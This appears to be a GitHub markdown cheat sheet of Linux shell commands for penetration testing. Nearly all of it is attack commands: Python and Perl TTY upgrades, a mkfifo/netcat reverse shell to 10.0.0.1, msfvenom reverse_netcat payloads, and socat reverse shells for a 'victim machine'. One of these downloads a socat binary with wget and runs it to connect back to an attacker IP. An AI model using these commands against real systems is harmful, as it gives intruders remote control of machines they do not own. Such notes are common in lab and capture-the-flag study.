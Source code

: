 ## Linux Bash Commands

```
# Change user
su username

```
### Improving your Shell
```
# Python
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```
